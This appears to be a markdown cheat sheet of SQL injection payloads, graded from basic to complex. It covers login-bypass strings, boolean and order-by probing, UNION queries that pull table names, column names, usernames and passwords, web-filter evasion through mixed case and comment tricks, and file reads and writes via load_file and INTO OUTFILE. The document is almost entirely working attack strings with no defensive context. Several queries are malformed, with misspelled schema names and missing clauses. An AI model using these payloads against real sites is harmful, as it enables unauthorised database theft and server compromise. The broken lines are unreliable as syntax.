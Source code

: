 

### Summary:


__Basic__

>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


>>  1' and 1=1 &nbsp;  | nbsp; True 


>>  1' and 1=0 &nbsp;  |  &nbsp; False 


>>  1' order by 1  &nbsp; |  &nbsp; True


>>  1' order by 10000 &nbsp; | &nbsp; False


>>  1 or db_name()=1); &nbsp;|  &nbsp;


>>  1 or db_name(0)=1) &nbsp; | &nbsp; increase the number until the database does not show any errors



>> 9999' UNION SELECT name,222,'else1' FROM master.syslogin; -- 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb |

